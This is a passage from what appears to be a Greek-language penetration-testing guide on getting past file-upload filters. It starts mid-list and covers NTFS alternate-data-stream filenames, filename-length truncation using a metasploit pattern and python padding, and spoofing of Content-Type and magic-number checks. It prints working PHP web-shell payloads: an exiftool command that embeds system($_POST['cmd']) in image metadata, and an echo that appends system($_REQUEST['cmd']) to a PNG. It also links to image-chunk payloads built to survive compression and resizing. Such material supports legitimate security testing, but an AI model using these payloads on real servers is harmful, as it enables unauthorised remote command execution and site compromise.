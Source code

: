 7. Χρησιμοποιώντας **NTFS εναλλακτική ροή δεδομένων (ADS)** σε **Windows**. Σε αυτή την περίπτωση, ένας χαρακτήρας άνω των δύο “:” θα εισαχθεί μετά από μια απαγορευμένη επέκταση και πριν από μια επιτρεπόμενη. Ως αποτέλεσμα, θα δημιουργηθεί ένα **κενό αρχείο με την απαγορευμένη επέκταση** στον διακομιστή (π.χ. “file.asax:.jpg”). Αυτό το αρχείο μπορεί να επεξεργαστεί αργότερα χρησιμοποιώντας άλλες τεχνικές όπως η χρήση του σύντομου ονόματος του. Το μοτίβο “**::$data**” μπορεί επίσης να χρησιμοποιηθεί για τη δημιουργία μη κενών αρχείων. Επομένως, η προσθήκη ενός χαρακτήρα τελείας μετά από αυτό το μοτίβο μπορεί επίσης να είναι χρήσιμη για να παρακάμψει περαιτέρω περιορισμούς (π.χ. “file.asp::$data.”)
8. Δοκιμάστε να σπάσετε τα όρια ονόματος αρχείου. Η έγκυρη επέκταση κόβεται. Και το κακόβουλο PHP μένει. AAA<--SNIP-->AAA.php

```
# Linux μέγιστο 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # μείον 4 εδώ και προσθήκη .png
# Ανεβάστε το αρχείο και ελέγξτε την απόκριση πόσους χαρακτήρες επιτρέπει. Ας πούμε 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Δημιουργήστε την payload
AAA<--SNIP 232 A-->AAA.php.png
```

### Παράκαμψη Content-Type, Magic Number, Συμπίεση & Αλλαγή μεγέθους

* Παράκαμψη **Content-Type** ελέγχων ορίζοντας την **τιμή** της **κεφαλίδας Content-Type** σε: _image/png_ , _text/plain , application/octet-stream_
1. Content-Type **λίστα λέξεων**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
* Παράκαμψη **magic number** ελέγχου προσθέτοντας στην αρχή του αρχείου τα **bytes μιας πραγματικής εικόνας** (μπερδέψτε την _εντολή_ file). Ή εισάγετε το shell μέσα στα **metadata**:\
`exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
`\` ή μπορείτε επίσης να **εισάγετε την payload απευθείας** σε μια εικόνα:\
`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* Αν **συμπίεση προστίθεται στην εικόνα σας**, για παράδειγμα χρησιμοποιώντας κάποιες τυπικές βιβλιοθήκες PHP όπως [PHP-GD](https://www.php.net/manual/fr/book.image.php), οι προηγούμενες τεχνικές δεν θα είναι χρήσιμες. Ωστόσο, μπορείτε να χρησιμοποιήσετε την **τεχνική PLTE chunk** [**που ορίζεται εδώ**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) για να εισάγετε κάποιο κείμενο που θα **επιβιώσει τη συμπίεση**.
* [**Github με τον κώδικα**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_plte\_png.php)
* Η ιστοσελίδα μπορεί επίσης να **αλλάζει το μέγεθος** της **εικόνας**, χρησιμοποιώντας για παράδειγμα τις συναρτήσεις PHP-GD `imagecopyresized` ή `imagecopyresampled`. Ωστόσο, μπορείτε να χρησιμοποιήσετε την **τεχνική IDAT chunk** [**που ορίζεται εδώ**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) για να εισάγετε κάποιο κείμενο που θα **επιβιώσει τη συμπίεση**.
* [**Github με τον κώδικα**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_idat\_png.php)
* Μια άλλη τεχνική για να δημιουργήσετε μια payload που **επιβιώνει σε αλλαγή μεγέθους εικόνας**, χρησιμοποιώντας τη συνάρτηση PHP-GD `thumbnailImage`. Ωστόσο, μπορείτε να χρησιμοποιήσετε την **τεχνική tEXt chunk** [**που ορίζεται εδώ**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) για να εισάγετε κάποιο κείμενο που θα **επιβιώσει τη συμπίεση**.
* [**Github με τον κώδικα**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_tEXt\_png.php)
